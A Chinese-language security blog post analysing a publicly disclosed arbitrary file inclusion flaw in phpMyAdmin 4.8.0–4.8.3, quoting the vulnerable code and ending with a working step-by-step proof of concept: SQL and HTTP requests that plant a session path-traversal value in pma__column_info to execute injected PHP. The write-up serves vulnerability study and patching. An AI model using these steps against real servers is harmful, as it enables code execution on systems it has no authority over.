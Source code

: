 ```yaml
---
title: "Phpmyadmin4.8.0~4.8.3任意文件包含"
date: 2018-12-20T08:34:43+08:00
categories: ['代码审计']
tags: ['phpmyadmin','include']
---
```


2018年12月7日，phpmyadmin官方发布[公告](https://www.phpmyadmin.net/security/PMASA-2018-6/)修复了一个由`Transformation`特性引起的任意文件包含漏洞。<!--more-->

## 漏洞分析

`Transformation`是phpMyAdmin中的一个高级功能，通过`Transformation`可以对每个字段的内容使用不同的转换，每个字段中的内容将被预定义的规则所转换。比如我们有一个存有文件名的字段`Filename`，正常情况下 phpMyAdmin 只会将路径显示出来。但是通过`Transformation`我们可以将该字段转换成超链接，我们就能直接在 phpMyAdmin 中点击并在浏览器的新窗口中看到这个文件。

通常情况下Transformation的规则存储在每个数据库的`pma__column_info`表中，而在phpMyAdmin 4.8.0~4.8.3版本中，由于对转换参数处理不当，导致了任意文件包含漏洞的出现。

这些转换在phpMyAdmin的`column_info`表中定义，他通常已经存在于phpMyAdmin的系统表中。但是每个数据库都可以生成自己的版本。要为特定数据库生成phpmyadmin系统表，可以这样生成

```http
http://phpmyadmin/chk_rel.php?fixall_pmadb=1&db=*yourdb*
```

它将会创建一个`pma__*`表的集合到你数据库中。

说了这么多，我们来看下具体产生漏洞的代码`tbl_replace.php`

```php
<?php

$mime_map = Transformations::getMIME($GLOBALS['db'], $GLOBALS['table']);
[省略]
// Apply Input Transformation if defined
if (!empty($mime_map[$column_name])
&& !empty($mime_map[$column_name]['input_transformation'])
) {
   $filename = 'libraries/classes/Plugins/Transformations/'
. $mime_map[$column_name]['input_transformation'];
   if (is_file($filename)) {
      include_once $filename;
      $classname = Transformations::getClassName($filename);
      /** @var IOTransformationsPlugin $transformation_plugin */
      $transformation_plugin = new $classname();
      $transformation_options = Transformations::getOptions(
         $mime_map[$column_name]['input_transformation_options']
      );
      $current_value = $transformation_plugin->applyTransformation(
         $current_value, $transformation_options
      );
      // check if transformation was successful or not
      // and accordingly set error messages & insert_fail
      if (method_exists($transformation_plugin, 'isSuccess')
&& !$transformation_plugin->isSuccess()
) {
         $insert_fail = true;
         $row_skipped = true;
         $insert_errors[] = sprintf(
            __('Row: %1$s, Column: %2$s, Error: %3$s'),
            $rownumber, $column_name,
            $transformation_plugin->getError()
         );
      }
   }
}
```

拼接到`$filename`的变量`$mime_map[$column_name]['input_transformation']`来自于数据表`pma__column_info`中的`input_transformation`字段，因为数据库中的内容用户可控，从而产生了任意文件包含漏洞。

## 漏洞利用

1. 创建一个新的数据库`foo`和一个随机的`bar`表，在表中创建一个`baz`字段，然后把我们的php代码写入session
```sql
CREATE DATABASE foo;
CREATE TABLE foo.bar ( baz VARCHAR(255) PRIMARY KEY );
INSERT INTO foo.bar SELECT '<?php phpinfo() ?>';
```

2. 创建phpmyadmin系统表在你的`foo`数据库中

    ```http
    http://phpmyadmin/chk_rel.php?fixall_pmadb=1&db=foo
    ```

3. 将篡改后的`Transformation`数据插入表`pma__columninfo`中：将`yourSessionId`替换成你的会话ID，即COOKIE中phpMyAdmin的值
    ```sql
      INSERT INTO `pma__column_info`SELECT '1', 'foo', 'bar', 'baz', 'plop',
    'plop', 'plop', 'plop',
    '../../tmp/sess_{yourSessionId}','plop';
    ```

4.  然后访问

    ```http
    http://phpmyadmin/tbl_replace.php?db=foo&table=bar&where_clause=1=1&fields_name[multi_edit][][]=baz&clause_is_unique=1
    ```
	如果利用成功，则会返回`phpinfo();`